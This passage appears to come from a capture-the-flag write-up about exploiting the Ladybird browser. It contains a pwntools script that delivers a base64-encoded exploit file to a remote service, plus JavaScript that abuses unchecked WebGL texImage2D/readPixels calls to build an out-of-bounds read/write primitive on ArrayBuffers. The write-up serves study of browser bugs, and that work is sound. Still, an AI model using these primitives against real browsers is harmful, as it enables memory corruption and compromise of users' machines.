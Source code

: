 ```Python
#!/usr/bin/env python3

from pwn import *
from sys import argv
from base64 import b64encode

file     = open(argv[3], 'rb').read()
file_b64 = b64encode(file)

io = remote(argv[1], int(argv[2])) if args.LOCAL else remote(argv[1], int(argv[2]), ssl=True)
io.sendlineafter(b'empty line:\n', file_b64)
io.sendline(b'')
io.interactive()
```
Now, let’s implement our basic primitives.

### OOB Read & Write

Before we start playing around with `Ladybird`’s memory, we need to extract some useful exploitation patterns from our vulnerabilities. As we’ve seen, we can read pixels from `OpenGL` into a JS `ArrayBuffer` without any bounds checking - and we can write them there the same way.

Let’s abstract this into a generic read/write primitive: something that allows us to write data to an `ArrayBuffer` out-of-bounds, and read from it out-of-bounds as well. To get there, we’ll need to study how to work with `WebGL` API.

I’ll leave this boring part for some frontend enjoyers (you can ask GoPaTych about it any time), and we arrive at the following code:
```JavaScript
  // Build OOB primitives using vulnerabilities and WebGL logic

  const gl     = cnv.getContext("webgl2");
  const tex    = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, tex);

  // One OOB function
  // It represents simetry of exploited vulnerabilities
  function oob(src, dest, sz)
  {
    const pw = sz;
    const ph = 1;

    gl.texImage2D(
      gl.TEXTURE_2D,
      0,
      gl.RGBA,
      pw,
      ph,
      0,
      gl.RGBA,
      gl.UNSIGNED_BYTE,
      src
    );

    const fbo = gl.createFramebuffer();
    gl.bindFramebuffer(gl.FRAMEBUFFER, fbo);
    gl.framebufferTexture2D(gl.FRAMEBUFFER, gl.COLOR_ATTACHMENT0,
                            gl.TEXTURE_2D, tex, 0);

    gl.readPixels(0, 0, pw, ph, gl.RGBA, gl.UNSIGNED_BYTE, dest);
  }
```
